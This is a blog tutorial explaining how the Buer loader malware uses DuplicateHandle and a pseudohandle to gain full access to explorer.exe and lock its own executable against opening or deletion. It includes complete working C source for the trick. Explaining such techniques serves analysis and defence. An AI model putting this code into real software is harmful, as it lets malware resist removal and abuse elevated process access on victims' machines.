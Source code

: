 Title: Windows persistance DuplicateHandle
Date: 2019-12-8 10:02
Modified: 2019-12-8 10:02
Category: tutorial
Tags: windows
Slug: duplicatehandle
Authors: F3real
Summary: How to use DuplicateHandle to achieve persistence on Windows

Today we will look at the method to prevent file being opened or deleted on Windows.
The same approach was used in **buer loader**. For more information about loader I recommend writeup on [krabsonsecurity](https://krabsonsecurity.com/2019/12/05/buer-loader-new-russian-loader-on-the-market-with-interesting-persistence/).

The handle is 32 bit unsigned integer used to lookup kernel objects. They represent a unified interface to kernel objects processes, threads etc. Each process has own private handle table. Handles are relative to process and have to be passed using DuplicateHandle. The duplicate handle refers to the same object as the original handle. Therefore, any changes to the object are reflected through both handles. 

Some functions don't return real handle but instead, they return pseudohandle. For example `GetCurrentProcess` returns special constant `-1`, a pseudohandle always pointing to the current process with `PROCESS_ALL_ACCESS` access right. Unlike real handles, pseudohandles don't have to be closed.

This can be abused to get handle to `explorer.exe` with `PROCESS_ALL_ACCESS` privileges using `DuplicateHandle` function. 

~~~c
BOOL DuplicateHandle(
  HANDLE   hSourceProcessHandle,
  HANDLE   hSourceHandle,
  HANDLE   hTargetProcessHandle,
  LPHANDLE lpTargetHandle,
  DWORD    dwDesiredAccess,
  BOOL     bInheritHandle,
  DWORD    dwOptions
);
~~~

We can pass handle obtained with `GetCurrentProcess` as `hSourceHandle` which will make explorer think we are duplicating handle to it (since in the context of explorer.exe `-1` will refer to it). To verify if this trick is working we can use [ProcessExplorer](https://docs.microsoft.com/en-us/sysinternals/downloads/process-explorer). In ProcessExplorer, clicking on process and we can see all handles it has and their access (access column has to be added by right-clicking on column headers and selecting `Select Columns...`). If we step through example program we can see access of `explorer.exe` handle changing from `PROCESS_DUP_HANDLE` (0x0040) to `PROCESS_ALL_ACCESS` (0x001FFFFF).

After we obtained this handle. We create a new handle to our own file with `dwSharing` set to 0 (preventing access to the file) and duplicate handle back to explorer using `PROCESS_ALL_ACCESS` handle we have.

Source code:
~~~c
#include "stdafx.h"

#include <windows.h>
#include <tlhelp32.h> /* never include win32 headers before windows.h*/


DWORD GetProcessIDByName(LPCTSTR ProcessName)
{
	PROCESSENTRY32 pt;
	HANDLE processSnap = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, NULL);
	if (processSnap != INVALID_HANDLE_VALUE) {
		pt.dwSize = sizeof(PROCESSENTRY32);
		if (Process32First(processSnap, &pt)) {
			do {
				if (!lstrcmpi(pt.szExeFile, ProcessName)) {
					CloseHandle(processSnap);
					return pt.th32ProcessID;
				}
			} while (Process32Next(processSnap, &pt));
		}
		CloseHandle(processSnap);
	}
	return 0;
}

BOOL getAllAccessHandle(DWORD processID, HANDLE* duplicatedProcess) {
	BOOL res = FALSE;
	/* System returns a pseudohandle with the maximum access that the DACL allows to the caller.*/
	HANDLE currentProcess = GetCurrentProcess();
	HANDLE targetProcess = OpenProcess(PROCESS_DUP_HANDLE, FALSE, processID);
	if (currentProcess && targetProcess) {
        res = DuplicateHandle(targetProcess, currentProcess, currentProcess, duplicatedProcess, FALSE, FALSE, DUPLICATE_SAME_ACCESS);
		CloseHandle(targetProcess);
	}
	return res;
}

int main()
{
	BOOL res = FALSE;
	HANDLE ourExplorerHandle = INVALID_HANDLE_VALUE;
	HANDLE fileHandle = INVALID_HANDLE_VALUE;
	HANDLE currentProcess = INVALID_HANDLE_VALUE;
	HANDLE newHandle;
	DWORD modulePathSize = 0;
	char moduleFilePath[MAX_PATH];

	DWORD explorerPID = GetProcessIDByName(L"explorer.exe"); /* wchar_t literal*/
	if (explorerPID == 0) {
		puts("Failed to obtain explorer.exe PID.\n");
		goto exit;
	}
	printf("Explorer PID: %d\n", explorerPID);

	if (!getAllAccessHandle(explorerPID, &ourExplorerHandle)) {
		puts("Failed to duplicate explorer.exe PID.\n");
		goto exit;
	}

	modulePathSize = GetModuleFileNameA(NULL, moduleFilePath, MAX_PATH);
	if (modulePathSize == 0 || modulePathSize > MAX_PATH) {
		puts("Failed to get module file name.\n");
		goto exit;
	}
	printf("Module path: %s\n", moduleFilePath);

	/* set dwSharing to 0, preventing any other process from accessing the file*/
	fileHandle = CreateFileA(moduleFilePath, GENERIC_READ, 0, NULL, OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, NULL);
	if (fileHandle == INVALID_HANDLE_VALUE) {
		puts("Failed to get module handle.\n");
		goto exit;
	}

	currentProcess = GetCurrentProcess();
	if (!currentProcess) {
		puts("Failed to get current process handle.\n");
		goto exit;
	}

	res = DuplicateHandle(currentProcess, fileHandle, ourExplorerHandle, &newHandle, FALSE, FALSE, DUPLICATE_SAME_ACCESS);
	if (!res) {
		puts("Failed to set access protection\n");
		goto exit;
	}
	puts("Access protection all set!\n");

exit:
	CloseHandle(currentProcess);
	CloseHandle(ourExplorerHandle);
	CloseHandle(fileHandle);
	system("pause");
    return 0;
}
~~~

References:

[The understanding of the handle, the difference between the pointer ](https://www.programmersought.com/article/7220840505/)

[DuplicateHandle API](https://docs.microsoft.com/en-us/windows/win32/api/handleapi/nf-handleapi-duplicatehandle)

[Как PROCESS_DUP_HANDLE превращается в PROCESS_ALL_ACCESS](https://habr.com/ru/post/448472/)
